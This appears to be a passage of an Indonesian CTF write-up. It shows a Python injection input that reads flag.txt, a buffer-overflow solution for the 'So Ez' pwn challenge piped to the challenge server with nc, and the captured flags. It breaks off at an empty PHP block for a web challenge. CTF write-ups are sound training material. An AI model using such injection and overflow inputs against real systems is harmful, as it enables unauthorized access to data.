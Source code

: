 ```sh
tangerangkota{Welc0m3_T0_V3ry-F1rsT-TNGKOTA-CTF...:)}

Anda memilih:  print(open("flag.txt", "r").read())
Admin Memilih:  27272313
Tidak Cocok :(
```
Diatas saya menginputkan "print(open("flag.txt", "r").read())" sehingga terlihat flagnya:
tangerangkota{Welc0m3_T0_V3ry-F1rsT-TNGKOTA-CTF...:)}
## So Ez :( (636)
Mari kita buka codenya
```sh
chmod +x ez-pwn
./ez-pwn 
Masukan Angka (Max 10 digits)
123
Nope :)
```
Ok, coba buka di ghidra, setelah itu masuk ke function main()

![](Pasted%20image%2020220320063212.png)

Kita bisa lihat ada variable "hack_me" dan dia terletak di bahaw variable "buf" yang memiliki lenght 100, artinya kita bisa meng-overwrite variabel "hack_me" dengan buffer overflow.
```sh
(python -c "print 'A'*100";cat) | ./ez-pwn
Masukan Angka (Max 10 digits)
Nope :)
```
Coba kita masukkan 'A' lebih banyak lagi
```sh
(python -c "print 'A'*110";cat) | ./ez-pwn
Masukan Angka (Max 10 digits)
Hi, here is your flag: 
cat: flag.txt: No such file or directory
```
nas kita sudah bisa mereplika permasalahan di atas. Sekarang kita coba ke server CTF nya
```sh
(python -c "print 'A'*110";cat) | nc 103.144.22.12 1002
Masukan Angka (Max 10 digits)
Hi, here is your flag: 
tangerangkota{d1KerJ4iN_k3rJ44n_buT__S000000___Eeee33zzzzZZZ!!!}
```
# Web
## Kode Nuklir Rahasia (400)
```php
<?php

```